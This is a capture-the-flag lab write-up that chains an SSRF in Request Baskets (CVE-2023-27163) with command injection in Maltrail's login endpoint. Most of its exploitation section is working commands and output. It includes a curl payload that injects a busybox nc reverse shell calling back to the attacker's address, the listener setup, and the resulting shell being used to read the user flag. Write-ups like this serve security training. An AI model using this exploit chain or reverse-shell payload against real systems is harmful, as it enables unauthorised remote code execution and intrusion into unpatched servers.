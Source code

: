 ## Vulnerability assessment
Request Baskets is vulnerable to SSRF up to version 1.2.1 (CVE-2023-27163) which is the vulnerability we already exploit to get information in the previous section. If you want to have all the requests to be forwarded through Request Baskets, you need to select the option "Expand Forward Path".
Maltrail is [vulnerable](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) to command injection up to version 0.54. If you send a POST request with an OS command, this will be executed by the server.
## Exploitation
We can now linked these two vulnerabilities to exploit the server. First of all, we create a new bucket (let's call it `test`) that redirect to `http://localhost/` and we "Expand Forward Path". Now, if we make a request to `http://10.129.229.26:55555/test`, we get the interface of Maltrail:
```
$curl http://10.129.229.26:55555/test
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta http-equiv="Content-Type" content="text/html;charset=utf8">
        <meta name="viewport" content="width=device-width, user-scalable=no">
        <meta name="robots" content="noindex, nofollow">
        <title>Maltrail</title>
        <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
        <link rel="stylesheet" type="text/css" href="css/main.css">
        <link rel="stylesheet" type="text/css" href="css/media.css">
        <script type="text/javascript" src="js/errorhandler.js"></script>
        <script type="text/javascript" src="js/thirdparty.min.js"></script>
        <script type="text/javascript" src="js/papaparse.min.js"></script>
    </head>
    <body>
        <div id="header_container" class="header noselect">
            <div id="logo_container">
                <span id="logo"><img src="images/mlogo.png" style="width: 25px">altrail</span>
[...]
```
We can also try to log with a POST request:
```
$curl http://10.129.229.26:55555/test/login --data 'username=toto'
Login failed
```
We can change the username by an OS command. I used [Reverse Shell Generator](https://www.revshells.com/) to craft a reverse shell command. I started by listening connection locally with `nc -lvnp 8000` and I run the following command:
```
$curl http://10.129.229.26:55555/test/login --data 'username=;`busybox nc 10.10.14.59 8000 -e sh`'
```
I get a shell:
```
$nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.229.26] 37770
pwd
/opt/maltrail
```
I can now read the flag:
```
cd /home
ls
puma
cd puma
ls
user.txt
cat user.txt
e[...SNIP...]e
```